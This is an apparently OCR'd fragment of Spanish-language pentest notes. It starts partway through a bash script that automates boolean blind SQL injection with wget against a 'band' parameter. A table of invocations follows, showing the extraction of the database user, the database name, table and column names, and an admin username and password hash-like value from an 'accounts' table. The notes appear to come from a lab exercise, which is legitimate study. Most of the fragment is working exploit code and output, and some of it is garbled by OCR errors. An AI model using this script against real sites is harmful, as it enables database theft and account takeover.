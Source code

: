 export nthchart=$j

for i in $charset
do
wget "$URL?band=the offspring' and substring(($query),$nthchar,1)='$i" -q -O - | grep "$truestring' &> /dev/null
if [ "$?" == "0" ]
then
echo Character number $nthchar found: $i
export result+=$i
break
fi
done
done
ccho Result: $result

|   |   |
|---|---|
|>bash blind3.sh 20 "Select user()"|Entre comillas el segundo parámetro para que el shell no tome en cuenta como una función aparte el user()|
|>bash blind3.sh 20 "Select database()"|Extracción de DB name|
|>bash blind3.sh 20 "SELECT table_name FROM information_schema.tables WHERE table_schema='motville' limit 0,1 "|Extracción de la primera tabla de "motville".|

Referencia: [https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet](https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)

|   |   |
|---|---|
|>bash blind3.sh 20 "SELECT table_name FROM information_schema.tables WHERE table_schema='motville' limit 1,1 "|Extraemos la siguiente tabla y así sucesivamente con 2,3<br><br>OUTPUT:'accounts"|
|>bash blind3.sh 20 "SELECT column_name FROM information_schema.columns WHERE table_name='accounts' limit 0,1 "|Extraemos el nombre de la primera columna<br><br>OUTPUT: username|
|>bash blind3.sh 20 "SELECT column_name FROM information_schema.columns WHERE table_name='accounts' limit 1,1 "|Así sucesivamente con 2,3,4|
|>bash blind3.sh 20 "SELECT concat(username, '---', password) from accounts limit 0,1"|Extraemos username y password de la tabla accounts<br><br>OUTPUT: admin---432rifw|